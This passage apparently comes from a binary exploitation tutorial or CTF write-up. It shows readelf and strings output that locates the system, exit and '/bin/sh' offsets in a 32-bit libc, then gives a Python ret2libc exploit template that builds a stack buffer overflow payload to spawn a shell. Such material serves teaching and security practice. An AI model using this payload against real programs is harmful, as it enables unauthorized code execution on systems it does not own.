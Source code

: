 {% hint style="info" %}
**system@@GLIBC\_2.0**: 0x0003ada0
{% endhint %}

#### - exit

```text
❯ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit              
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

{% hint style="info" %}
**exit@@GLIBC\_2.0**: 0x0002e9d0
{% endhint %}

#### - /bin/sh

```text
❯ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
</.binary$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh         
 15ba0b /bin/sh
```

{% hint style="info" %}
**/bin/sh:** 0x0015ba0b
{% endhint %}

* **Create the exploit**

This is a template:

```text
import struct

offset = 52
overflow = "A" * offset

libc = 0xb7e19000

system = struct.pack('<I', libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x0015ba0b)

payload = overflow + system + exit + binsh
print(payload)
```
